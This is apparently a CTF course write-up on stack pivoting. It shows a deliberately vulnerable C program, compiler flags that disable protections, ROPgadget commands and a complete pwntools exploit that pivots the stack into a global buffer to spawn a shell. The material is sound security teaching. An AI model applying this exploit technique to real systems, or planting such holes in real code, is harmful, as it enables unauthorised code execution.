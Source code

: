 ```yaml
---
title: Simple PWN - 0x09(stack pivoting)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x09(stack pivoting)
<!-- more -->
###### tags: `CTF` `PWN` `eductf`

## Stack Pivoting background
[NTUSTISC - Pwn Basic 3 [2019.03.26]](https://youtu.be/iA4Hrr17ooI?t=6865)
[Pwn week1](https://youtu.be/ktoVQB99Gj4?t=7898)
It was used when stack overflow bytes not big enough to access a shellcode but it has another lots of writable space can be accessed.
More detailed info. can refer to [Binary Exploitation (Pwn)](https://youtu.be/5D7tvxpSUUM?t=9543)


## Original Code
```cpp!
#include <stdio.h>
#include <unistd.h>

char name[0x80]

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char s[0x10];

    printf("Give me your name: ");
    read(0, name, 0x80);

    printf("Give me your ROP: ");
    read(0, s, 0x20);

    return 0;
}
```
* You can observe that it has not much stack buffer overflow can use, but it has global variable `name` with space `0x80`(can be another stack)
    ```bash!
    gcc -o stack_pivoting stack_pivoting.c -no-pie -fno-stack-protector -z norelro -zexecstack -static
    ```
* <font color="FF0000">Note that</font>:
must use `mprotect` to change permission of global variable `name` just like [lecture 0x04](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJhgXGKci), add these line in original code
    ```c!
    #include <sys/mman.h>
    mprotect(0x403000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC);
    ```
    **Before `mprotect` - `vmmap`**
    ![](https://imgur.com/z8cK5SM.png)
    ![](https://imgur.com/J6qKJ8N.png)
    **After `mprotect` - `vmmap`**
    ![](https://imgur.com/gNr8Fya.png)

## Exploit
1. Construct `ROP` chain
    ```bash!
    objdump -d -M Intel stack_pivoting | grep "<name>"
    ROPgadget --binary stack_pivoting --only "pop|ret|syscall|leave" > one_gadget
    vim one_gadget
    ```
    ![](https://imgur.com/TYmCYw4.png)
    ![](https://imgur.com/o5L0Uvu.png)
    ![](https://imgur.com/OU9yJU4.png)
    ![](https://imgur.com/tWcfPEN.png)
    ![](https://imgur.com/ix4Phxm.png)
    ![](https://imgur.com/aZN3iu8.png)
    
2. Find address of variable `name`
    ```bash!
    objdump -d -M Intel stack_pivoting | grep "<name>"
    ```
    ![](https://imgur.com/l6OIT2S.png)
3. Whole exploit
    :::spoiler Code
    ```python!=
    from pwn import *

    context.arch = 'amd64'

    r = process('./stack_pivoting')
    raw_input()
    name = 0x4c70c0
    leave_ret = 0x40182d
    pop_rdi_ret = 0x401ecf
    pop_rsi_ret = 0x409efe
    pop_rax_ret = 0x44fd07
    pop_rdx_rbx_ret = 0x485b2b
    syscall = 0x401c84

    ROP = b'/bin/sh\x00'
    ROP += flat(
        pop_rdi_ret, name,
        pop_rsi_ret, 0,
        pop_rdx_rbx_ret, 0, 0,
        pop_rax_ret, 0x3b,
        syscall
    )

    r.sendafter("Give me your name: ", ROP)
    raw_input()
    r.sendafter("Give me your ROP: ", b'a'*0x10 + p64(name) + p64(leave_ret))

    r.interactive()
    ```
    :::
    * First, write `ROP` chain to global variable `name`
    * Next, use 2 `leave ; ret` to pivot `name` as a stack
4. Finally, you got shell!!!
    ![](https://imgur.com/kCyVi4N.png)

## Reference
[mprotect.2 man](https://man7.org/linux/man-pages/man2/mprotect.2.html)
[trace 30個基本Linux系統呼叫第二十二日：mprotect](https://ithelp.ithome.com.tw/articles/10187093)